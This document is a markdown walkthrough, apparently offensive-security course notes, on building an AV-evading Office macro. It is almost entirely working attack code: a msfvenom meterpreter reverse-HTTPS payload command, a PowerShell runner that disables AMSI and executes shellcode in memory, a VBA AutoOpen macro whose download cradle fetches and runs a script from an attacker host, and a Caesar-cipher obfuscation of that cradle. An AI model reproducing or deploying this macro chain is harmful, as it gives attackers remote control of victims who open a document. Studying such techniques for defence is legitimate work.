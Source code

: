 ## VBA Bypass Technique - Office Macro 
### VBA + Powershell + Dechaining + Obfuscation (string reverse) + Encryption (caesar cipher) 

1. Create msf shellcode (or other C2 shellcode) 
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

<br> 

2. Create powershell shellcode runner (run.ps1)
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

//add msfvenom shellcode in ps1 format
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
<br>

3. Create Macro w/ VBA code to use powershell download cradle.
One of the advantages of using the PowerShell shellcode runner is the fact that no first-stage shellcode is embedded in the document that is sent to the victim.
```bash
Sub MyMacro
strArg = "powershell -exec bypass -nop -c iex((new-object
system.net.webclient).downloadstring('http://192.168.119.120/run.ps1'))" GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
Sub AutoOpen() Mymacro
End Sub
```
<br> 

4. To reduce the detection rate even further, we can perform a more complex obfuscation by converting the ASCII string to its decimal representation and then performing a Caesar cipher encryption on the result. run the following encyrption script:
```bash
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
[string]$output = ""
$payload.ToCharArray() | %{ [string]$thischar = [byte][char]$_ + 17 if($thischar.Length -eq 1)
{
$thischar = [string]"00" + $thischar
$output += $thischar }
elseif($thischar.Length -eq 2)
{
$thischar = [string]"0" + $thischar $output += $thischar
}
elseif($thischar.Length -eq 3)
{
$output += $thischar
} }
$output | clip
```
repeat above again with `winmgmts:` & `Win32_Process`

<br>

5. Code Snippet
```bash
Function Pears(Beets)
  Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
  Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
  Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
  Do
  Oatmilk = Oatmilk + Pears(Strawberries(Milk)) Milk = Almonds(Milk)
  Loop While Len(Milk) > 0
  Nuts = Oatmilk
End Function

Function MyMacro()
  Dim Apples As String
  Dim Water As String

  Apples = "1291281361181311321211181251250490621181371181160491151381291141321320490621271281290 49062136049121122117117118127049062116049122118137057057127118136062128115123118116133 04913213813213311812606312711813306313611811511612512211812713305806311712813612712512 81141171321331311221271200570561211331331290750640640660740670630660710730630660660740 63066067065064115128128124063133137133056058058"
  Water = Nuts(Apples)
  GetObject(Nuts("136122127126120126133132075")).Get(Nuts("10412212706806711209713112811 6118132132")).Create Water, Tea, Coffee, Napkin
End Function

Sub AutoOpen()
  MyMacro
End Sub
```

